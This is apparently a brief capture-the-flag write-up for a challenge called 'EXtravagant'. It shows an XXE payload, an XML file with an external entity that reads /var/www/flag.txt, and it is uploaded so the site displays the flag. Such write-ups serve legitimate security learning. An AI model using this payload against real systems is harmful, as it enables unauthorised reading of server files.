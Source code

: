 # EXtravagant

## XEE - XML External Entity

We can upload a XML file on a website and then see it.

We inject the following code:
```XML
<!--?xml version="1.0" ?-->
<!DOCTYPE foo [<!ENTITY example SYSTEM "/var/www/flag.txt"> ]>
<data>&example;</data>
```
When access on the website we are good :)